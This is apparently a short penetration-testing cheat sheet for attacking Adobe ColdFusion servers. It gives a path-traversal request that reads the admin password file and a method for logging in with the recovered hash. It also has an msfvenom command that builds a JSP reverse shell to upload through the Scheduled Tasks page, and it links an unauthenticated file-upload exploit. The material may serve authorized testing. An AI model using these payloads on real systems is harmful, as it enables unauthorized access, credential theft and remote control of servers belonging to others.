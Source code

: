 # coldfusion

## Interesting Paths

```bash
# identification folders
/CFIDE
/cfdocs

# admin page
/CFIDE/administrator/index.cfm
```

## Admin Page bypass

* https://www.exploit-db.com/exploits/14641

```
IP/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Using console > console.log(hex_hmac_sha1(document.loginform.salt.value, '<hash>'));
Using Burp to intercept and using `<console-hash>` as new password.
```

## Upload Shell using GUI

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -o shell.jsp
Under Debugging & Logging > Scheduled Tasks > Create new task
```

## Arbitary File Upload (unauthenticated)

v8.0.1 | https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload

